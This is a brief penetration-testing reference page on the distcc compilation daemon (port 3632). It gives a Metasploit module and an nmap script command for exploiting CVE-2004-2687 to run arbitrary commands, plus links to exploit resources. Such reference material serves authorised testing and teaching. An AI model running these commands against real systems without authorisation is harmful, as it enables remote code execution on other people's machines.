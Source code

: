 # 3632 - Pentesting Distcc


## Basic Information

**Distcc** is a tool that enhances the **compilation process** by utilizing the **idle processing power** of other computers in the network. When **distcc** is set up on a machine, this machine is capable of distributing its **compilation tasks** to another system. This recipient system must be running the **distccd daemon** and must have a **compatible compiler** installed to process the sent code.

**Default port:** 3632

```
PORT     STATE SERVICE
3632/tcp open  distccd
```
```
## Exploitation

Check if it's vulnerable to **CVE-2004-2687** to execute arbitrary code:

```bash
msf5 > use exploit/unix/misc/distcc_exec
nmap -p 3632 <ip> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
```
## Shodan

_I don't think shodan detects this service._

## Resources

- [[https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec|https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec]]
- [[https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855|https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855]]

Post created by **Álex B (@r1p)**



